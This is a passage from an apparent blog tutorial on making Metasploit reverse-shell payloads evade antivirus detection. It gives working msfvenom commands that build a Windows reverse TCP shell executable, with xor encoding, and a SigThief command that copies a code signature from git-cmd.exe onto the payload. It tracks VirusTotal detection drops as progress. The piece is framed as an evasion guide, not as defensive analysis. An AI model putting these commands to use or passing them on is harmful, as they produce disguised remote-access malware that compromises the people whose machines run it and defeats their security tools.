 ### Making MSF payload almost invisible and bypassing most AVs

## Contents
- Introduction 

- Ways to obfuscate msf payloads
    - Basic msf payload
    - Using SigThief
    - Using xor 
    - Using shellcode with C shellcode loader
    - Using encryption (Alaris)
    
## Introduction 

Avs have significantly improved in recent years it still relies on age-old AV techniques that are often trivial to bypass. In this post we’ll analyse some basic pool of techniques which can be used to protect a basic msf payload to bypass most modern Avs. 

## Ways to hide msf payloads
In the following we will explore ways to encode/obfuscate msf payload and will have a goal to finally reach a point where we are satisfied with our results.

### Basic msf payload
Lets see how our basic msf payload stand againt Virustotal.

- Build command
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -f exe -o shivang_shell.ex
```

- Result

![Alt Text](https://i.ibb.co/rQrdx2j/basic-msf.png)

### Using SigThief
SigTheif is tool which takes a signature from a PE file and add that to another. Many Avs detect maalicous PE files based on signatures so this method can drop our detection rate to some extent.

- Build command
```
python sigthief.py -i git-cmd.exe -t shivang_shell.exe -o shivang_shell_2.exe
```

- Result

![Alt Text](https://i.ibb.co/BtSZkwQ/basic-msf-sig.png)

Droping only 2 detection is not at all a huge move here . Although there are many combination which can be tried from SighTheif but for now let's leave it here

### Using xor
With xor payload is decrypted inside the memeory once loaded via msfveom we can generate such payload 

- Build command

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip here> LPORT=<port here> -e x64/xor_dynamic -i 20 -f exe -o shivang_shell_xor.exe
```

- Result

![Alt Text](https://i.ibb.co/P9McckC/basic-msf-xor.png)

Well we are making some progress now.
